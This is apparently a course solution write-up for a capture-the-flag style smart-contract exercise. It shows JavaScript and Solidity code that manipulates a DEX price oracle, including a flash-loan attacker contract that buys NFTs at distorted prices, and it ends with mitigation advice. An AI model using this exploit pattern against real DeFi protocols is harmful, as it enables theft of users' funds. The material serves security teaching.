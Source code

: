 # Smart Contracts Exercise 06: Fool the Oracle --- Solution

The solution for Exercise 06: Fool the Oracle can be found in this [GitHub repository](https://github.com/radovluk/Smart-Contract-Exercise/tree/main/06-Fool-the-Oracle/solution/solution-code).

## Solution to Task 1: Fool the Oracle 01

The solution to Task 1 leverages price manipulation in SimpleDEX, which is being used as a price oracle by the NFT marketplace. By exploiting the price impact mechanics of an AMM, we can change the exchange rate between ETH and USDC to make the NFTs much cheaper in ETH terms. The key steps of the solution are:

1. First, we approve the DEX to spend our USDC tokens:
```javascript
await usdcToken.connect(player).approve(simpleDEX.target, PLAYER_INITIAL_USDC);
```

2. Then, we swap all our USDC (3,000) for ETH, which drastically changes the composition of the liquidity pool. This manipulation causes the price of ETH (in USDC terms) to increase significantly:
```javascript
await simpleDEX.connect(player).usdcToEth(PLAYER_INITIAL_USDC);
```

3. Finally, we purchase all three NFTs at the artificially low ETH prices:
```javascript
for (let i = 1; i <= NFT_COUNT; i++) {
    const ethPrice = await nftMarketplace.getCurrentPriceForNFT(i);
    console.log(`Purchasing NFT #${i} for ${ethers.formatEther(ethPrice)} ETH`);
    await nftMarketplace.connect(player).buyNFT(i, { value: ethPrice });
}
```

This attack exploits the fact that the NFT marketplace blindly trusts the DEX as its price oracle without considering that prices can be manipulated through normal trading activities.

## Solution to Task 2: Fool the Oracle 02

In Task 2, the DEX has significantly more liquidity (100 ETH and 200,000 USDC), making direct price manipulation much more difficult with our limited funds. Instead, we utilize flash loans to borrow a large amount of USDC, manipulate the price, purchase the NFTs, and repay the loan—all within a single atomic transaction. The solution involves creating a specialized attack contract (FlashLoanNFTAttacker) that implements both flash loan logic and NFT purchasing in its callback function. The key steps of this attack are:

1. Deploy the attacker contract with references to all necessary contracts:
```javascript
const FlashLoanNFTAttacker = 
await ethers.getContractFactory("FlashLoanNFTAttacker", player);
const attacker = await FlashLoanNFTAttacker.deploy(
flashLoanProvider.target,
usdcToken.target,
simpleDEX.target,
nftMarketplace.target,
studentNFT.target
);
```

2. Send some ETH to the attacker contract to help cover the costs of the flash loan:
```javascript
const ethToKeep = ethers.parseEther("1.6");
const ethToSend = PLAYER_INITIAL_ETH - ethToKeep;
await player.sendTransaction({
    to: attacker.target,
    value: ethToSend
});
```

3. Execute the flash loan attack, borrowing 150,000 USDC:
```javascript
const borrowAmount = ethers.parseEther("150000"); // 150,000 USDC
await attacker.executeAttack(borrowAmount, { value: estimatedEthNeeded });
```

Inside the attacker contract (FlashLoanNFTAttacker.sol), the `onFlashLoan` callback function performs the following steps:
1. Dumps the borrowed USDC into the DEX to manipulate the price (making ETH more expensive)
2. Buys the target NFTs at the manipulated (lower) ETH prices
3. Transfers the NFTs to the player
4. Converts remaining ETH back to USDC
5. Repays the flash loan with interest

```solidity
// Flash loan callback function where the actual attack happens
function onFlashLoan(
    address initiator,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata data
) external override returns (bytes32) {

    // Decode the NFT ids to buy
    uint256[] memory nftIds = abi.decode(data, (uint256[]));
    
    // Approve DEX to spend our USDC
    usdcToken.approve(address(dex), amount);
    
    // Dump all USDC to manipulate the price
    dex.usdcToEth(amount);
    
    // Buy all target NFTs at the reduced ETH price and transfer to owner
    for (uint i = 0; i < nftIds.length; i++) {
        uint256 ethPrice = marketplace.getCurrentPriceForNFT(nftIds[i]);
        marketplace.buyNFT{value: ethPrice}(nftIds[i]);
        
        // Transfer the NFT to the owner
        nftContract.transferFrom(address(this), owner, nftIds[i]);
    }
    
    // Convert ETH back to USDC to repay the loan
    uint256 usdcToRepay = amount + fee;
    uint256 usdcBought = dex.ethToUsdc{value: address(this).balance}();
    
    // Check if we have enough USDC to repay
    uint256 currentUsdcBalance = usdcToken.balanceOf(address(this));
    if (currentUsdcBalance < usdcToRepay) {
        revert RepaymentFailed(currentUsdcBalance, usdcToRepay);
    }
    
    // Transfer the tokens to the lender to repay the loan
    usdcToken.transfer(address(lender), usdcToRepay);

    // Transfer any remaining USDC back to the player
    usdcToken.transfer(owner, usdcBought - usdcToRepay);
    
    // Return the required value to indicate successful flash loan execution
    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

## Comment on Mitigation Strategies

Smart contracts relying on price oracles require robust protection against manipulation attacks like those demonstrated in these exercises. Effective mitigation approaches focus on making these attacks economically unfeasible.

Time-Weighted Average Prices offer significant protection by averaging prices over extended periods, greatly increasing the capital required for manipulation. Rather than trusting a single source, projects should aggregate data from multiple independent oracles, taking median values to neutralize outliers.

Implementing volume and liquidity monitoring helps detect suspicious activities. When unusually large trades occur relative to pool size, the system can temporarily pause or flag transactions for review. Similarly, setting reasonable price deviation bounds prevents acceptance of manipulated values that fall outside of historical volatility patterns.

Many production DeFi applications now rely on professional oracle networks that aggregate data from numerous off-chain sources with built-in manipulation safeguards.